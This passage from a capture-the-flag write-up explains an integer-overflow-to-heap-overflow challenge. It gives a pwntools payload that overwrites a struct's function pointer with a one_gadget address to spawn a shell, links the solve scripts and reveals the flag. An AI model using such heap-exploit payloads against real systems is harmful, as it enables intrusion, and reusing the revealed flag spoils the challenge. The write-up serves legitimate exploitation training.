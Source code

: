 The program read to `new_data->buffer` and then run the function `new_data->func` immediately so it doesn't use any heap address. Therefore, we just need to overwrite all the data from `new_data->buffer` to next `new_data` with any bytes we want, then set the `new_data->arg1` and `new_data->arg2` to null and set `new_data->func` to one_gadget and we can get the shell:

```python
payload = b'+'.ljust(4, b'\0')
payload += p32(0x20000008)       # size
payload += p32(0)           # arg1
payload += p32(0)           # arg2
payload = payload.ljust(0x80, b'A')
p.send(payload)

payload = flat(
    b'A'*0x2f0,
    0, 0,
    heap_base, libc.sym['one_gadget']
    )
p.sendafter(b'feedback: ', payload)
```

Full script: [solve_1.py](solve_1.py)

Another solution for this chall is attacking tcache_perthread_struct, because it's too long to explain so I just put the script here and you can debug to see: [solve_2.py](solve_2.py)

# 4. Get flag

![get-flag.png](images/get-flag.png)

Flag is `W1{integer_overflow_to_heap_overflow_to_rce}`